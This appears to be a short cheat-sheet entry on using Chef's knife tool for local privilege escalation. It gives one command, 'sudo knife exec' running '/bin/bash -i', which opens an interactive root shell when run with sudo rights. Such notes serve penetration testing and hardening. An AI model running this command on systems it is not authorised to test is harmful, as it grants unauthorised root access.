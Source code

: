 Knife chef and is a built in tool. if you are on a remote system running chef you may exploit the system. The knife command allows you to execute local commands if you know a bit of ruby.

	sudo knife exec --exec "exec '/bin/bash -i'"
	
Return to [[README]]

